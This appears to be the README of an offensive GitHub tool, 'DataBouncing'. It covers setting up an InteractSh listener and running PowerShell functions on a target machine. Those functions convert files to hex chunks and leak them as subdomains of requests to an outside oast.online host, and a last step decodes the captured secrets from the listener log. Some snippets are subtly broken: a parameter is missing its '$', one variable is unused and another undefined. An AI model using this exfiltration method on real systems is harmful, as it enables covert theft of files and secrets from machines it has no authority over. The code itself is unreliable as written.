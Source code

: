 # DataBouncing

You have two options. 
Use the [InteractSh Web Client](https://app.interactsh.com/#/) or 
use this [Build Script](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh) with an Ubuntu 22.04 image.

Run this command on your listener machine to start the InteractSh Client and define your log file

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```

Next on the target machine you are going to want to convert a file to Hex and prepare it for transfer with this script:
[chunks](https://github.com/Unit-259/DataBouncing/blob/main/Client/Convert-FileToHexChunks.ps1)



```powershell

function exfil {
    param (
        [string]regex,
        [string]$domain,
        [string]$url,
        [string]$filepath
    )
    $segments = Convert-FileToHexChunks -FilePath $filepath
    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value;
        send-customRequest -Url "$regex.$url" -Domain "$domain"    
    }
}
```





```
function Demo-Secrets {
    param (
        [string]$xregex,
        [string]$urlSuffix
    )

    foreach ($segment in $segments.PSObject.Properties) {
        $secret = $segment.Value
        $url = "$xregex.$secret.$urlSuffix"
        Send-CustomRequest $url
    }
}
```

```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```



```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
